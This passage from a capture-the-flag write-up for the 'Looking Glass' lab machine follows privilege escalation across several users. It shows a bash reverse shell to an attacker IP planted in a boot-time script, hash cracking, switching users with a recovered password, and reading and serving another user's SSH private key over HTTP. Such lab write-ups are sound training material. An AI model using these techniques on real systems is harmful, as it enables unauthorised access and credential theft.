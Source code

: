 so I replaced the content of that script with a `bash` reverse shell, rebooted the machine and waited it booted again and I got a reverse connection as the user `tweedledum`

```bash
jabberwock@looking-glass:~$ echo 'bash -i >& /dev/tcp/10.2.56.31/10000 0>&1' > twasBrillig.sh
jabberwock@looking-glass:~$ sudo reboot
Connection to ctf.thm closed by remote host.
Connection to ctf.thm closed.
```

### escalating to humptydumpty

`tweedledum`'s home directory had 2 files, one had a poem, and the other had a bunch of hashes
```bash
tweedledum@looking-glass:~$ ls
humptydumpty.txt  poem.txt
tweedledum@looking-glass:~$ cat humptydumpty.txt 
dcfff5eb40423f055a4cd0********************f5766b4088b9e9906961b9
7692c3ad3540bb803c020b********************0c6e7143c0add73ff431ed
28391d3bc64ec15cbb0904********************11230bb0105e02d15e3624
b808e156d18d1cecdcc145********************7c8c2315b473dd9d7f404f
fa51fd49abf67705d6a35d********************9ebfdc9d5d4956416f57f6
b9776d7ddf459c9ad5b0e1********************2446677600d7cacef544d0
5e884898da28047151d0e5********************abbdd62a11ef721d1542d8
7468652070617373776f72********************7574737271706f6e6d6c6b
```

I used this [website](https://hashes.com/en/decrypt/hash) to crack them, the first 7 lines, was sha256 hashes hinting that the password might be one of them, the last line was just hex and it translated to the follwing text `the password is REDACTED`

atfer trying if I can log to another used using that password, it worked on the user `humptydumpty` (duh!)
```bash
tweedledum@looking-glass:~$ su humptydumpty 
Password: 
humptydumpty@looking-glass:/home/tweedledum$
```

### escalating to alice

I tried listing the permissions of the directories in `/home`, turned out we have the execution bit set on `/home/alice`. again, this means we might not list content of that directory, but we can read files as long as we know their names, and what well-known file might be interesting for us there ? ssh private keys!

```bash
humptydumpty@looking-glass:/home/tweedledum$ cd /home
humptydumpty@looking-glass:/home$ ls -lh
total 24K
drwx--x--x 6 alice        alice        4.0K Jul  3  2020 alice
drwx------ 3 humptydumpty humptydumpty 4.0K Jan  9 18:59 humptydumpty
drwxrwxrwx 5 jabberwock   jabberwock   4.0K Jul  3  2020 jabberwock
drwx------ 5 tryhackme    tryhackme    4.0K Jul  3  2020 tryhackme
drwx------ 3 tweedledee   tweedledee   4.0K Jul  3  2020 tweedledee
drwx------ 2 tweedledum   tweedledum   4.0K Jul  3  2020 tweedledum
humptydumpty@looking-glass:/home$ cd alice
humptydumpty@looking-glass:/home/alice$ ls
ls: cannot open directory '.': Permission denied
humptydumpty@looking-glass:/home/alice$ cd .ssh
humptydumpty@looking-glass:/home/alice/.ssh$ ls -lh id_rsa
-rw------- 1 humptydumpty humptydumpty 1.7K Jul  3  2020 id_rsa
humptydumpty@looking-glass:/home/alice/.ssh$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```
